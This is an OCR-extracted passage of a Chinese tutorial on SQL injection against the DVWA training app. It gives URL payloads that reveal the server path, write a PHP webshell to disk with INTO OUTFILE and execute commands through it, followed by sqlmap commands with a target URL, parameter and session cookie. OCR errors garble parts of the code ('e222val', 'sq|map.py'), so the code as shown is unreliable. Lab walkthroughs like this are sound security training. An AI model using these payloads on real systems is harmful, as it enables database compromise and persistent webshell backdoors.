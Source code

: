    获取物理路径。通过引发异常，导致应用报错，报出物理路径。
   
   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+"xx","xx+into+outfile+"xx"--+ &Submit=Submit#
   ```
   
   写webshell。通过`select ... into outfile ...`成功写入
   
   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+"<?php
   @e222val($_GET['cmd']);?>","webshell"+into+outfile+"D:\\phpStudy\\www\\DVWA-1.9\\cmd.php'--+ &Submit=Submit#
   ```
   
   尝试执行。成功执行
   
   ```bash
   http://10.240.138.212/DVWA-1.9/cmd.php?cmd=system(dir);
   ```
   
   

### 自动实战

sqlmap

攻击url`http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit#`

指定攻击url -u 

```bash
sq|map.py -u "http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit#"
```

攻击参数 -p

```bash
sq|map.py -u "http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit#" -p "id"
```

登录状态
指定cookie --cookie

```bash
sq|map.py -u "http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit#" -p "id" --cookie "security=low;PHPSESSID=jka3hOrrgm019seusvds4tskk5"
```

执行sqlmap语句

注入类型
